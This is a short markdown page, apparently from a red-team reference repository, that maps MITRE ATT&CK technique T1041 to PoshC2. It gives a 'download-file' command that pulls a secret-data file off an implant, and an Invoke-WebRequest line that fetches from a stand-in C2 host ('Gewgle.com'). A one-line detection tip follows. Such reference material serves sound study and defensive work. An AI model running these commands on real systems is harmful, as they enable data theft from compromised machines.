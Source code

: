 # [Exfiltration Over Command and Control Channel](https://attack.mitre.org/techniques/T1041/)

## Exploit Description: 
Download command in PoshC2


## Exploit syntax:


* Download file directly from implant
```powershell
download-file <file path> 
Example: download-file 'C:\\Users\\Public\\SuperSecretData.txt'
```

* Download file from staged malicious site/C2 server
```powershell
Invoke-WebRequest -Uri "http://www.Gewgle.com" -OutFile "C:\path\file"
```


## Detection Technique:
* Investigate powershell with the “download” command. Investigate increased data transfer external to the network during a network connection.

